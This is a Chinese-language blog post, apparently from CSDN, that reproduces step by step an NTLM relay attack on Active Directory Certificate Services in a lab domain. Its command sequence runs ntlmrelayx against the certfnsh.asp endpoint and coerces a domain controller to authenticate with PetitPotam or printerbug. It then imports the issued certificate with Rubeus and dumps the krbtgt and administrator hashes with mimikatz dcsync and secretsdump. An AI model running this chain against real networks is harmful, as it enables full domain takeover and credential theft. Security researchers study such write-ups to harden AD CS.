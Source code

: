         由于ADCS的http证书接口没有启用NTLM中继保护，因此其易受NTLM Relay攻击。而且Authorization HTTP 标头明确只允许通过 NTLM 身份验证，因此Kerberos协议无法使用。因此，攻击者可以利用NTLM Relay攻击ADCS证书服务。

![](https://img-blog.csdnimg.cn/img_convert/7ec1d65b89762479902724191b0f5927.png)

```
http://10.211.55.4/certsrv/certfnsh.asp
```


![](https://img-blog.csdnimg.cn/img_convert/462edd9a34058432053cfb2007c466c8.png)

### 漏洞复现

定位证书服务器机器

```
certutil -config - -ping
```


![](https://img-blog.csdnimg.cn/img_convert/736959d57f3c4c2b741d0f46148c3218.png)

ntlmrelayx监听，这里需要新的impacket：[GitHub - ExAndroidDev/impacket at ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack "GitHub - ExAndroidDev/impacket at ntlmrelayx-adcs-attack")

```
python3 ntlmrelayx.py -t http://10.211.55.4/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'
```


![](https://img-blog.csdnimg.cn/img_convert/cf1e8f52d244c50366f64ca72072f973.png)

使用脚本触发辅助域控回连我们的攻击机器，这里可以使用最新的Petitpotam.py，也可以使用printerbug.py

```
python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.5

#或者使用printerbug.py也可以触发
python3 printerbug.py xie/hack@10.211.55.5 10.211.55.2
```


![](https://img-blog.csdnimg.cn/img_convert/13c515168150ad811a1eec63124637a8.png)

或

![](https://img-blog.csdnimg.cn/img_convert/1ba43b83c70a52064fcb8144ad9bdfa6.png)

获取到base64编码的证书数据，会打印出很多个base64编码的证书，我们随便选择一个即可。

![](https://img-blog.csdnimg.cn/img_convert/097491587dfd099b4e1361a04270ec47.png)

然后使用Rubeus导入证书数据

```
Rubeus.exe asktgt /user:AD02$ /certificate:打印出来的base64的证书数据 /ptt
```


![](https://img-blog.csdnimg.cn/img_convert/d387adef0a3bed3ae04b5ee6d11434c3.png)

![](https://img-blog.csdnimg.cn/img_convert/6ff526cd4ffeba590512f4af2e6ff048.png)

然后使用mimikatz即可导出域内任意用户哈希

```
mimikatz.exe
#查看kerberos票据
kerberos::list
#导出krbtgt用户的hash
lsadump::dcsync /user:krbtgt /csv
```


![](https://img-blog.csdnimg.cn/img_convert/e9620849dc71e631aa9b51d4681e4e7c.png)

或者可以手动导入证书

```
kerberos::ptt ticket.kirbi
```


![](https://img-blog.csdnimg.cn/img_convert/e555041520db0e0eef413b54ccc7cad1.png)

也可以使用kekeo将.kirbi后缀的证书转换为 .ccache后缀的证书，然后使用impacket工具进行利用。

```
misc::convert ccache ticket.kirbi
```


![](https://img-blog.csdnimg.cn/img_convert/9df7c0429b748e07651c458c8313e03d.png)

```
export KRB5CCNAME=AD02\\$\\@XIE.COM\_krbtgt~xie.com\\@XIE.COM.ccaches
proxychains4 -q python3 secretsdump.py -k -no-pass AD01.xie.com -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/img_convert/d52a0ce9c207bb1a7b7763f759597952.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[Active Directory 证书服务攻击与防御（一）](https://www.anquanke.com/post/id/245791#h2-11 "Active Directory 证书服务攻击与防御（一）")

[全补丁域森林5秒沦陷？加密升级之信任雪崩](https://mp.weixin.qq.com/s?__biz=MzU0MDcyMTMxOQ==&mid=2247483735&idx=1&sn=e0ddc385b58caab50a431e49755b051e&scene=21#wechat_redirect "全补丁域森林5秒沦陷？加密升级之信任雪崩")

[https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/ "https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/")

[https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/ "https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/")
